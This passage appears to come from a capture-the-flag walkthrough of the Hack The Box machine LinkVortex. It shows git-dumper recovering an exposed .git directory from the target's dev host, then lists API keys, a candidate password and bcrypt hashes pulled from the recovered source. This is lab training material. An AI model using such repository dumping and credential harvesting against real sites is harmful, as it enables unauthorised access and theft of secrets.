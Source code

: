 
```sh
┌──(kali㉿kali)-[~/htb/linkvortex]
└─$ git-dumper http://dev.linkvortex.htb/.git ./.git
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/exclude [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/v5.57.3 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/54b0ed7f9c9aedf3180ee1fd94e7e43b29f000 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.idx [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
```



const apiKey = '69010382388f9de5869ad6e558';
const API_KEY = 'b30afc1721f5d8d021ec3450ef';
mynewfancypasswordwhichisnotallowed

ghost/core/test/utils/fixtures/filter-param/index.js:        password: '$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKZL6',
ghost/core/test/utils/fixtures/filter-param/index.js:        password: '$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKZL6',
ghost/core/test/utils/fixtures/filter-param/index.js:        password: '$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKZL6'
host/security/test/tokens.test.js:            password: '$2a$10$t5dY1uRRdjvqfNlXhae3uuc0nuhi.Rd7/K/9JaHHwSkLm6UUa3NsW',


